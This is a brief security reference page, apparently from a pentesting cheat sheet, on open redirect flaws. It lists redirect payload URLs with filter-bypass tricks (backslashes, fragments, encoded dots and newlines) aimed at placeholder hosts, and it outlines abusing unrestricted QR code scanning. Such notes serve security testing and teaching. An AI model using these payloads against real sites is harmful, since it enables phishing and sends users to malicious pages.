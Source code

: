 ```yaml
---
title: Open Redirect
description: It accepts a user-controlled input that specifies a link to an external site and uses that link in a redirect.
tags:
    - Web
refs:
date: 2023-06-13
draft: false
---
```


## Payloads

```html
https://vulnerable.com/example.php?redirectUrl=https://attacker.com/
https://vulnerable.com/example.php?redirectUrl=https:\\attacker.com\
https://vulnerable.com/example.php?redirectUrl=https://attacker.com#.vulnerable.com/
<!-- "%E3%80%82" is "." -->
https://vulnerable.com/example.php?redirectUrl=https://attacker.com%E3%80%82%23.vulnerable.com/
<!-- "%0d" is newline  -->
https://vulnerable.com/example.php?redirectUrl=/%0d/attacker.com/
```

<br />

## Unrestricted QR Code Scanning

Reference: [https://shahjerry33.medium.com/open-redirection-qr-code-magic-18ace1a0170f](https://shahjerry33.medium.com/open-redirection-qr-code-magic-18ace1a0170f)

If website (or mobile application) has the function for scanning QR code but not restricts URL, we can let it to read malicious QR code.

### 1. Generate QR Code

First, we need to create a malicious QR code. There are many online tools for generating it.

### 2. Read Malicious QR Code in the Application

After generating the QR code, read the QR code in the target application.  
If the application does not validate the URL, we can access to the malicious URL.
